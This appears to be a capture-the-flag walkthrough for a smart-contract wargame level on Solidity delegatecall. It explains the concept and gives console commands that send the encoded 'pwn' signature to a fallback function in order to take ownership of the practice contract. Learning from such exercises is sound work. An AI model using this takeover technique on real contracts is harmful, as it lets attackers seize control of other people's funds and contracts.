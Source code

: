 # Level 6 - Delegate Call

## Important resources to undertand 
* [delegatecall](https://medium.com/coinmonks/delegatecall-calling-another-contract-function-in-solidity-b579f804178c)
* [Fallback Function](https://solidity-by-example.org/fallback/)

### Key points to remember
* In simple terms delegatecall keeps the context of the caller contract when executing the called contract, see the pictures below to understand the difference call() and delegatecall()
![Call](https://miro.medium.com/max/4800/1*PwYIsFyDM60IW4KuDkUncA.png "Call() Exection State")
![DelegateCall](https://miro.medium.com/max/4800/1*4OB3IwTF1AkW6zH3tJv8Tw.png "DelegateCall() Exection State")
* Call/ DelegateCall are used to call functions of contract without knowing the actuall functions

### Solution

In your console do, all this is doing is essentially [encoding](https://medium.com/@libertylocked/what-are-abi-encoding-functions-in-solidity-0-4-24-c1a90b5ddce8) the function name to be called by the delegation

`let payload = web3.eth.abi.encodeFunctionSignature({
    name: 'pwn',
    type: 'function',
    inputs: []
});`

Next step is to pass the payload created above to call the fallback function (sending a transaction to the contract will trigger the fallback function with the delegate call in delegation)

`await contract.sendTransaction({
    data: payload
});
`

Now try `await contract.owner()` your address should be the owner now
